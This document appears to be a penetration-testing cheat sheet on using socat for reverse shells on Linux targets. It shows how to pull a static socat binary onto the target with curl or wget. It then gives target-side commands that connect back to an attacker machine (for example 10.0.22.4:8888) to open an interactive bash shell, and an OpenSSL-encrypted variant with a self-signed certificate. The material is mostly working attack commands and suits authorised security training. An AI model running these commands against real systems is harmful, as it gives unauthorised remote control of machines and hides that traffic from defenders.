 # socat

### Stable shell

Using basic methods such as netcat will generate a shell that might not be stable: terminates with ctrl+Z, non-interactive shell, etc. Alternative methods are available:

Socat is generally more stable on Linux systems compared to Windows (target machine). As socat might not be installed on all target Linux systems, it will need to be installed. However, the common method of using `apt install` or `apt-get install` is not ideal as it requires multiple dependencies and other possible configurations.&#x20;

Instead, a static compiled binary (without dependencies) can be installed from a direct HTTP URL on the target machine using tools such as `curl` or `wget`. Link: [https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)

```bash
$ curl https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true --output /bin/socat
```

```bash
$ wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true -O /bin/socat
```



_**Note**_: The output directory depends on a few factors such as the current working directory, or the value of the `$SHELL`environment variable. This is important to ensure the installed binary can be executed from the target machine.

#### Hosting the binary on a publicly accessible attacker-controlled machine

The binary can also be hosted on another attacker-controlled machine on the internet, and be accessed via a simple Python web server running on that machine.

### Reverse shell

#### Basic command to run on the attacker machine (listening)

```bash
$ socat tcp-l:[listen_port] -
```

#### Basic command to run on the target machine (initiate revere shell connection)

```bash
$ socat tcp:[attacker_ip]:[attacker_port] EXEC:"bash -li"
```

### Best reverse shell experience

Target machine

```bash
$ socat TCP:10.0.22.4:8888 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

Attacker machine

```bash
$ socat tcp-l:8888 -
```



### Encrypted shell with OpenSSL

**Creating a self-signed certificate (on the attacker machine)**

```bash
$ openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

1. `req`: Specifies to create a certificate request or certificate.&#x20;

* In this case, the `-x509` flag is specified, which indicates to create a self-signed certificate

2. `--newkeyrsa:2048`: This specifies that a new private key should be generated with the _RSA_ algorithm, using a key size of 2048 bits.

**Merge the two created files `shell.key` and `shell.crt` to the file `shell.pem`**

```bash
$ cat shell.key shell.crt > shell.pem
```



### Reverse shell

**Listen on attacker machine**

```bash
$ socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

#### Connect from the target machine

```bash
$ socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```
